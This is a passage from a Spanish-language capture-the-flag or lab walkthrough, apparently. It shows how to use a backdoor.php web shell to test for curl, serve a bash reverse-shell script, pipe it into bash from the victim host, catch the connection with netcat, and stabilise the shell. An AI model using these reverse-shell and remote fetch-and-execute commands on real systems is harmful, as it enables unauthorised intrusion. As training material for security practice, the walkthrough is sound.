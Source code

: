 
Por lo que veremos que funciona y nos podremos hacer una `Reverse Shell`...

Primero veremos si tiene instalado `curl`...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP>/index.html | bash
```

Y con esto ya tendriamos la shell como el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
